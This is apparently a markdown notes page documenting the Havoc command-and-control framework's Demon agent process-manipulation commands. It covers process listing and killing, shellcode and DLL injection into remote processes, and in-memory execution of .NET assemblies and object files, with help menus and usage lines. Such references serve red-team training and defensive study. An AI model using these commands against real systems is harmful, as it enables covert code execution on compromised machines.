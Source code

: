 # 05 - Process Manipulation

Search Tag(s): #havoc #command-and-control #interactive-shell

## 5.1 - Process Manipulation

### 5.1.1 - Help Menu

```
Demon » help proc

 - Command       :  proc
 - Description   :  process enumeration and management
 - Usage         :  proc [command]
 - Example       :  proc list

  Command                        Description
  ---------                      -------------
  list                           displays a list of running processes on the target
  kill                           kills the process from specified PID
  blockdll                       block non microsoft signed dlls
  create                         create a process
  modules                        lists loaded modules/dlls from a remote process
  grep                           grep information from the specified remote process
  memory                         query for memory regions
  find-module                    query for processes with specified loaded module
```

### 5.1.2 - Usage

#### 5.1.2.1 - Create Process

`Demon » proc create notepad.exe`

`Demon » proc create taskmgr.exe`

#### 5.1.2.2 - Terminate Process

`Demon » proc kill <pid>`

#### 5.1.2.3 - Inject Process

##### 5.1.2.3.1 - Shellcode

* Help Menu

```
Demon » help shellcode

 - Command       :  shellcode
 - Description   :  shellcode injection techniques
 - Usage         :  shellcode [subcommand]
 - Example       :  shellcode inject-sys x64 1337 /tmp/rev_shell.x64.bin

  Command                        Description
  ---------                      -------------
  inject                         inject shellcode into a remote process
  spawn                          spawns a temporary process and injects into it
```

* Usage

`Demon » shellcode inject <x64 | x86> <pid> /path/to/shellcode.bin`

`Demon » shellcode spawn <x64 | x86> /path/to/shellcode.bin`

##### 5.1.2.3.2 - Spawn DLL

* Help Menu

```
Demon » help dll

 - Command       :  dll
 - Description   :  dll spawn and injection modules
 - Usage         :  dll [subcommand]
 - Example       :  dll inject 1337 /tmp/module.dll argument

  Command                        Description
  ---------                      -------------
  inject                         inject dll into a remote process
  spawn                          spawns a temporary process and injects a dll into it
```

* Usage

`Demon » dll inject <pid> /path/to/local/file.dll [arguments]`

`Demon » dll spawn /path/to/local/file.dll [arguments]`

##### 5.1.2.3.3 - DotNET CLR Assembly

```
Demon » help dotnet

 - Command       :  dotnet
 - Description   :  execute and manage dotnet assemblies
 - Behavior      :  API Only
 - Usage         :  dotnet [sub command]
 - Example       :  dotnet inline-execute /tmp/seatbelt.exe

  Command                        Description
  ---------                      -------------
  list-versions                  lists installed/available dotnet versions
  inline-execute                 executes assembly in the current process and gets output
```

##### 5.1.2.3.4 - Object File

```
Demon » help inline-execute

 - Command       :  inline-execute
 - Description   :  executes an object file
 - Behavior      :  API Only
 - Usage         :  inline-execute [/path/to/objectfile.o] (arguments)
 - Example       :  inline-execute /tmp/objectfile.x64.o hello
```